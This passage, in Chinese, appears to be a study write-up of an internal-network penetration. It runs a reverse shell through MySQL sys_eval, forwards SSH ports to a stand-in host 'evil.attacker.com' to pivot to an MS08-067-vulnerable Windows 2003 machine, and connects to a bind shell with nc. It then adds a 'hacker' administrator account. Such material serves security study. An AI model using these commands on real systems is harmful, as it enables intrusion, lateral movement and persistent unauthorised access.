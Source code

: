 至此，获得在内网数据库服务器上执行代码的能力。现在开启反弹 Shell：

```
SELECT sys_eval('chmod 755 /tmp/bd');
SELECT sys_eval('/tmp/bd &');
```

注意，这个 Shell 是从数据库端口 3306 发出的。

与之前不同的是，这个 Shell 是 root 权限。

- 内网横向渗透

作者通过枚举内网存活主机，发现了一台`Windows 2003 R2`，地址为`10.150.0.20`。

这里作者首先`ping`了一下这个地址。其实通过`ttl`值可以大概判断目标操作系统，详细内容见附录六。

用数据库服务器做端口转发，使攻击机器与内网`.20`机器的 445 端口建立连接：

```
ssh -l root -t -t -R 445:10.150.0.20:445 evil.attacker.com
```

注意，上述命令中的`-t -t`表示本次操作独立占用一个`tty`（如果只有一个`-t`则代表独立占用一个伪终端）。关于端口转发，参考这篇[文章](https://www.ibm.com/developerworks/cn/linux/l-cn-sshforward/)。

此时，内网`.20`机器的 445 端口已经被映射到攻击者机器的 445 端口（这个过程我不太懂）。

接着对 445 端口做漏洞扫描：

```
nmap -sS 127.0.0.1 -p 445 --script smb-check-vulns.nse
```

发现目标机器存在`ms08-067`漏洞。

接下来就是漏洞利用：触发漏洞，然后在`.20`上 4444 端口绑定一个 Shell。

首先利用数据库服务器的 Shell 再做一个端口转发：

```
ssh -l root -t -t -R 4444:10.150.0.20:4444 evil.attacker.com
```

绑定 Shell 的 Shellcode 是以 Egghunter 方式编写的。关于这种方式的更多内容可以参考附录四。

关于`ms08-067`，参考附录五。

漏洞利用脚本太长，这里就不贴了，网上应该有很多。

```
./exploit.py 127.0.0.1
```

注意前边已经把 445 端口映射过了，所以这里打本地端口就可以。

```
nc -v 127.0.0.1 4444
```

成功获得 Shell。接着添加一个管理员用户：

```
net user hacker hacker /add
localgroup administrators hacker /add
```
